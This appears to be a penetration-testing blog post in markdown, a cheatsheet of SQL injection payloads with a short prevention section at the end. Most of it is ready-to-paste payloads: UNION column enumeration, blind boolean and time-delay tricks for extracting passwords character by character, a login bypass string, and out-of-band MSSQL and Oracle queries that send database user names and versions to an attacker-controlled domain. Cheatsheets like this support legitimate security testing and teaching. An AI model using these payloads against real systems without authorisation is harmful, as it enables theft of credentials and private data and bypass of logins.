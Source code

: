 ```yaml
---
title: "SQLi attack"
subtitle: ""
date: 2020-03-04T15:58:26+08:00
lastmod: 2020-03-04T15:58:26+08:00
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"

tags: ["web", "penetest", "sqli"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# SQL injection 

A SQL injection (SQLi) is a type of security exploit in which the attacker adds Structured Query Language (SQL) code to a Web form input box in order to gain access to unauthorized resources or make changes to sensitive data. 


An SQL query is a request for some action to be performed on a database. When executed correctly, a SQL injection can expose intellectual property, the personal information of customers, administrative credentials or private business details.

## SQLi Basics

Here will be some basics informations to get when you have a successfull injection

- SQL injection attack, querying the database type and version on Oracle
	- Depending on the DB you can get the version as follow:
		- Microsoft, MySQL
		{{< highlight sql "lineNos=false" >}}SELECT @@version{{< /highlight >}}
		- Oracle
		{{< highlight sql "lineNos=false" >}}SELECT * FROM v$version{{< /highlight >}}
		- PostgreSQL
		{{< highlight sql "lineNos=false" >}}SELECT version(){{< /highlight >}}
			
- SQL injection attack, listing the database contents 
	- Non-Oracle DB 
	    {{< highlight sql "lineNos=false" >}}select * from information\_schema.tables{{< /highlight >}}

	- Oracle DB
	    {{< highlight sql "lineNos=false" >}}select * from all_tables{{< /highlight >}}

## Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query :
    - Using `Union` :
        {{< highlight sql "lineNos=false" >}}' union select NULL--{{< /highlight >}} 
        > Increasing number of NULL value until values are actually return
    - Using `Order` :
        {{< highlight sql "lineNos=false" >}}' order by 1--{{< /highlight >}}
        > Increasing the int value until an error occured
		
		
- Finding a column containing text
    {{< highlight sql "lineNos=false" >}}union select 'a', NULL, NULL, ...--{{< /highlight >}}
    > Add as many null as you need to match the number of columns
		
- Retrieving data from other tables
    {{< highlight sql "lineNos=false" >}}union select CHAMP1, CHAMP2, .... from TABLE_NAME--{{< /highlight >}}
    > Again add as many null value as needed
		
		
- Retrieving multiple values in a single column
    {{< highlight sql "lineNos=false" >}}union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--{{< /highlight >}}
    > Very usefull when you only have the capacity to extract data from a uniq column
		
		

## Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	{{< highlight sql "lineNos=false" >}}' and (select substring(password,1,1) from users where username='administrator')='a{{< /highlight >}}

- Conditional errors

	The goal here is to check errors based on a True query and on a false one. 
    
    Here is an example:
    - True statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=2) then 1/0 else 'a' end)='a{{< /highlight >}}

    - False statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=1) then 1/0 else 'a' end)='a{{< /highlight >}}
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL.  
    
    The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. 
    If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. 
    
    Examples : 
	
    - Using `sleep`:
        {{< highlight sql "lineNos=false" >}}';sleep(10)--{{< /highlight >}}
	- Using `waitfor` : 
        {{< highlight sql "lineNos=false" >}}'; if (1=1) waitfor delay '0:0:5'--{{< /highlight >}}
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. 

    Here is an example : 
    {{< highlight sql "lineNos=false" >}}
    '; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--{{< /highlight >}}


- Out-of-band (OAST)

    This type of SQLi is perform against asynchronous system. 
    
    The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. 
    
    To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. 
    Basicly we will redirect to our controlled domain on True or False condition. 
    
    For example we can perform those :
    - For Microsoft SQL Server	
        - Basic test:
            {{< highlight sql "lineNos=false" >}}'; exec master..xp\_dirtree '//MYDOMAIN/a'--{{< /highlight >}}

		- Data on subdomain:
            {{< highlight sql "lineNos=false" >}}declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q){{< /highlight >}}

    - MYSQL
        Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	- ORACLE
        {{< highlight sql "lineNos=false" >}}select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'|'MYDOMAIN',80) from 	dual;{{< /highlight >}}


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

## How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.